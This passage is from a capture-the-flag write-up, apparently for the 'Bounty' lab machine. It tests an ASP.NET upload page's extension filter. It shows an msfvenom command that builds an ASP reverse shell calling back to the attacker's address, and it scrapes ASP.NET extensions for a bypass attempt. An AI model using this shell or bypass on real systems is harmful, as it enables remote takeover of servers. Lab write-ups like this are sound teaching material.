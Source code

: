 Browsing to `/transfer.aspx` shows the following:

![transfer](./bounty/transfer.png)

Maybe these files are uploaded to the directory `UploadedFiles`? Test by uploading a file `bubba.txt` and trying to browse to it at `/UploadedFiles/bubba.txt`. 

```bash
echo 'BUBBA' > bubba.txt
```

However, this returns the error `Invalid File. Please try again`. Maybe it only likes certain files? 

```bash
mv bubba.txt bubba.jpg
```

Trying `bubba.jpg` gets a successful upload with the message `File uploaded successfully`! Browsing to `/UploadedFiles/bubba.jpg` gives the following:

![upload](./bounty/upload.png)

Nice! Maybe it is possible to upload a ASP webshell? First generate one:

- https://netsec.ws/?p=331

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -f asp > bubba.asp
```

However, uploading this also returns an `Invalid File. Please try again` message. Probably need to try harder to find a file extension that will pass inspection... All ASP.NET file types can be found here:

- https://docs.microsoft.com/en-us/previous-versions/aspnet/2wawkw1c(v=vs.100)

Extract all the fielname extensions with the following command:

```bash
curl -s "https://docs.microsoft.com/en-us/previous-versions/aspnet/2wawkw1c(v=vs.100)" | \
  grep -oP "<p>\.(.*)</p>" | sed 's/<p>//g' | sed 's/<\/p>//g' | sed 's/ //g' | tr '\n' ',' | sed 's/,$//g'
```

This gives a list of the following:

```
.asax,.ascx,.ashx,.asmx,.aspx,.axd,.browser,.cd,.compile,.config,.cs,.jsl,.vb,.csproj,.vbproj,vjsproj,.disco,.vsdisco,.dsdgm,.dsprototype,.dll,.licx,.webinfo,.master,.mdb,.ldb,.mdf,.msgx,.svc,.rem,.resources,.resx,.sdm,.sdmDocument,.sitemap,.skin,.sln,.soap,.asa,.asp,.cdx,.cer,.idc,.shtm,.shtml,.stm,.css,.htm,.html
```

In order to test these values, the HTML source of `/transfer.aspx` is needed to automate the requests:
